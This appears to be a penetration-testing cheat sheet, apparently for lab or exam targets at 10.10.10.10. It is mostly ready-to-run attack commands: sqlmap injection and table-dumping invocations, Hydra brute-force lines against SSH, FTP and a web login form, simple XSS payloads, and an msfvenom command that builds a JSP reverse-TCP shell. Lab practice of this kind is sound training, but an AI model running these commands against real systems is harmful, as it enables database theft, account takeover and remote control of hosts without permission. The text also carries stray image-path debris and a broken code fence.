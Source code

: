 ```

**Banner Grabbing**\
nc -nv 10.10.10.10 \<port>

### SQLMap

**Check if injection exists**

sqlmap -r Post.req\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin"

**Get database if injection Exists**

sqlmap -r login.req --dbs\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id --dbs\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin" --dbs\\

**Get Tables in a Database**

sqlmap -r login.req -D dbname --tables\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id -D dbname --tables\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin" -D dbname --tables

**Get data in a Database tables**

sqlmap -r login.req -D dbname -T table\_name --dump\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id -D dbname -T table\_name --dump\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin" -D dbname -T table\_name --dump

### Hydra

**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
_You can use same for FTP, just replace ssh with ftp_

**HTTP POST Form**\
hydra [http://10.10.10.10/](http://10.10.10.10/) http-post-form "/login.php:user=^USER^\&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V

_You will know which wordlists to use when the time comes_

### XSS

\<script>alert(1)\</script>\
\<ScRiPt>alert(1)\</ScRiPt>

_This is a great filter bypass cheatsheet_\
[https://owasp.org/www-community/xss-filter-evasion-cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### msfvenom shells

**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST= LPORT= -f raw > shell.jsp

```